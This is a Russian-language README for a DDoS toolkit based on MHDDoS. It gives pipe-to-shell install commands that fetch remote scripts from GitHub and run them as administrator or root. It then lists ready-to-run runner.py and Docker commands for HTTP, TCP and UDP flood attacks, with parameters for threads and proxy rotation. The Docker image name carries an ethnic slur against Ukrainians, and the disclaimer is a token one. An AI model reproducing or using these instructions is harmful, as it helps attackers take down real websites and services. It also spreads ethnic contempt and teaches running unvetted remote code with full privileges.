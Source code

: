 ﻿# :red_circle: scripts 


                                          ❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код.❗
                                  ❗Все действия вы производите на свой страх и риск.❗



### :large_orange_diamond: Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

### :large_orange_diamond: Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ

# ЗАПУСК СОФТА :alien:
# 1. Более лояльный, менее агрессивный. :no_entry:
##### :pushpin: WINDOWS : 
Запускаем cmd от администратора, переходим в папку cd C:\VZ
##### :pushpin: LINUX : 
Запускаем консоль пишем sudo su, переходим в папку cd $HOME/VZ

##### :pushpin: WIN LINUX : 
python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


## :recycle: Методы Атаки:

:heavy_check_mark: Атака на Layer 7 (HTTP(S) по URL) 
```
python3 runner.py https://example.com https://example1.com -t 1000 --debug
```
:heavy_check_mark: Атака на Layer 7 (HTTP по IP + PORT)
```
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug
```

:heavy_check_mark: Атака на Layer 4 (по UDP адресам)
:warning::warning::warning:ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ:warning::warning::warning:
```
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug
```
:heavy_check_mark: Комбинированная атака
```
python3 runner.py tcp://192.168.2.10:53 https://example1.com 
```



## :recycle: Вывод из атаки :
- PPS - количество установленных соединений с целью атаки
- BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
- % - когда произойдёт смена прокси в %


# 2. Более агресивный через Docker. :no_entry:

docker run -it --rm ghcr.io/mr-kritik/ddos_ukropi:latest <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug

расшифровку можете взять выше






